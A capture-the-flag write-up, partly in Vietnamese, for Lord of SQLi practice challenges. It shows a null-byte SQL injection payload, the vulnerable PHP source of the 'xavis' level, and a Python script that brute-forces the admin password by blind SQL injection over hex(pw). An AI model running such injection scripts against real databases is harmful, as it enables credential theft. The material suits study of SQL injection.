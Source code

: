 filter : \`prob \_ . () # -\` and len(pw) <= 6

payload: pw=')=0;%00

%00 để vô hiệu hoá query đằng sau

## XAVIS \<Hex brute force>

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>php
```

Filter :`prob _ . (\) regex like`

idea : Brute force => Hello admin

Bài này bf string thì không đc nên ta sẽ dùng hex rồi decode ra lại pw

```python
import requests
import string

char = string.printable
url="https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php/"
header = {'Cookie':'PHPSESSID=1k033ilrvrlrsps5aktrqc28hq'}
session = requests.Session()
flag = ""
for j in range(1,25):
    print(j , "======================================================")
    for i in char:
        r = session.get(url = url , headers = header , params = {"pw" : f"' or 1=1 and substr(hex(pw), {j} , 1 ) = '{i}"})
        print(i , " ", len(r.text))
        if "Hello admin" in r.text:
            flag += i
            print("flag : " , flag)
            break
```
